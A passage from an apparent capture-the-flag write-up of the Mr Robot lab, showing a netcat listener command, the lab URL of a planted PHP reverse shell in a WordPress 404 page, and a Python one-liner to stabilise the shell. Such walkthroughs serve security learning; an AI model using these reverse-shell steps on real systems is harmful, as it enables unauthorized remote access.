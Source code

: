 ![IMG-21](/assets/Mr-Robot-CTF-Images/Mr-Robot-CTF%20(12).png)

Before we run our reverse shell, we first have to setup a listener via netcat using the following command:

```bash
nc -lnvp 4444
```

Once uploaded, all we need to do is know where the PHP script is uploaded.

```
http://10.10.123.154/wp-admin/404.php
```

Boom, we now have a shell:

![IMG-22](/assets/Mr-Robot-CTF-Images/Mr-Robot-CTF%20(14).png)

We can make the shell more stable by spawning a tty shell. This is done by running a simple Python command:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

Navigating the file system, we find the next key needed for the challenge; additionally, we find a password.raw-md5 file. However, due to the key file only having read permissions for the file owner, we can only access the password.raw-md5 file.
